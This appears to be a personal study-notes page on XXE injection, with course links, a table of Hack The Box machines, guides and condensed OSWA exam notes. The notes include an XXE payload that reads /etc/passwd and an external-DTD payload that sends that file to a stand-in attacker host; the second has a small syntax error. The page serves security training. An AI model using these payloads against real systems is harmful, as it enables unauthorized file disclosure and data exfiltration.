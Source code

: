 ![image](https://github.com/user-attachments/assets/2001f1cc-0a7a-4871-a657-e3d483ceb030)

# XXE - XML External Entities

## Training Resources
---

**Courses**

*Free*

- [PortSwigger Academy - XXE](https://portswigger.net/web-security/xxe)

*Paid*
- [HTB - Web Attacks (XXE Subsection)](https://academy.hackthebox.com/course/preview/web-attacks)
- [HTB - Web Services & API Attacks (XXE Subsection)](https://academy.hackthebox.com/course/preview/web-service--api-attacks)
- [THM - XXE Injection](https://tryhackme.com/r/room/xxeinjection)

#

### Hack The Box Machines
*These machines are tagged as containing XXE by HTB, the difficulty refers to the box as a whole and not necessarily the XXE element.*

| Machine Name | Difficulty | Completed |
| -- | -- | -- |
| BountyHunter | Easy | |
| RedPanda | Easy | |
| NodeBlog | Easy | |
| MetaTwo | Easy | |
| Label | Easy | |
| DevOps | Medium | |
| Clicker | Medium | |
| Aragog | Medium | |
| Pollution | Hard | |
| Patents | Hard | |
| RE | Hard | |
| ForwardSlash | Hard | |
| Spider | Hard | |
| Helpline | Hard | |
| Fulcrum | Insane | |

### Other Resources
---
**PT Guides**
- [PwnFunction YouTube XXE Explained](https://www.youtube.com/watch?v=gjm6VHZa_8s)
- [Hacker Recipes - XXE Injection](https://www.thehacker.recipes/web/inputs/xxe-injection/#xxe-injection)
- [OWASP - XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [HackTricks - XXE & XEE](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html)
#
**Methodologies**
- [SWAP Methodology - XXE Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
#
**XXE Prevention**
- [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
#
**Other**
- [YouTube - Stok Blind XXS Out-of-Bounds over DNS using PDF](https://www.youtube.com/watch?v=aSiIHKeN3ys)


## Condensed Notes
This is a condensed version of the notes I used during OSWA and are by no means complete. Make your own notes and methodology, building off these basic steps. 

- Look for evidence the application handles XML input.
- If there is a sample XML document to download, do it and get familiar with the format the application expects.
- Identify what fields from the XML are displayed to the page, this makes it easier to inject. If this can't be done, attempt to inject into every field. 
- Use Burp Suite HTTP history to look for any references to XML.
- Manipulate the XML in line to include your injection attempt in the XML and print response to screen:
```bash
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```
- Alternatively try and replace the Document Type Definition (DTD) to use an external DTD hosted on your attack machine, example below shows this process and attempts to get the contents of the /etc/passwd file. 
```bash
# evil.dtd
<!ENTITY % passwd SYSTEM "file:///etc/passwd/">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker-server.com/?%passwd;'>">
%wrapper;

# main.xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM @http://attacker.com/evil.dtd">
<pwn>&send;</pwn>
```
